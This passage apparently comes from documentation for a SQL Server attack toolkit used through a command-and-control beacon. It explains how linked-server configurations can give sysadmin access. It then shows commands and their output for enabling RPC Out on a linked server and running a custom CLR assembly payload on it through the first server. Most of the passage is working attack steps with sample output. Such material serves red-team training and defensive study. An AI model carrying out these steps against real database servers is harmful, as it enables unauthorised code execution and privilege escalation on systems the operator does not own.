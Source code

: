 ```batch
 |--> User is a member of the dbcreator role
 |--> User is a member of the bulkadmin role

[*] Disconnecting from server
```

The security context that you receive on the linked server depends on how the link itself is configured.  It may use hardcoded local credentials, hardcoded domain credentials, or it may inherit the security context of the current session.  For example, if the link was configured using the local sa account, then you will have access to the linked server as the sa user.  That will give you sysadmin privileges on the linked server, even if you don't have that access on the initial server.

If xp\_cmdshell, OLE, or CLR are already enabled on the linked server then we can attack it as previously described.  If not, then we obviously have to try and enable them.  However, this will fail if _RPC Out_ is not enabled on the link, as it's required in order to call stored procedures on the linked server.

The `sql-checkrpc` command can be used to check first, and `sql-enablerpc` to enable it on a target link.

```batch
beacon> sql-checkrpc lon-db-1

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Enumerating RPC status of linked servers on lon-db-1

name | is_rpc_out_enabled | 
----------------------------
lon-db-1 | 1 | 
LON-DB-2 | 0 | 

[*] Disconnecting from server

beacon> sql-enablerpc lon-db-1 lon-db-2

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Toggling RPC on lon-db-2...

is_rpc_out_enabled | 
---------------------
1 | 

[*] Disconnecting from server
```

```batch
beacon> sql-clr lon-db-1 C:\Users\Attacker\source\repos\ClassLibrary1\bin\Release\ClassLibrary1.dll MyProcedure "" lon-db-2

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Performing CLR custom assembly attack on lon-db-2 via lon-db-1

[*] CLR is enabled
[*] RPC out is enabled
[!] Error fetching results
[*] Assembly hash does not exist (error fetching result normal)
[*] Added SHA-512 hash for DLL to sys.trusted_assemblies with the name "ztvnsjhj"
[*] Creating a new custom assembly with the name "ioivboaj"
[*] Loading DLL into stored procedure "MyProcedure"
[*] Created "[ioivboaj].[StoredProcedures].[MyProcedure]"
[*] Executing payload...
[*] Cleaning up...

```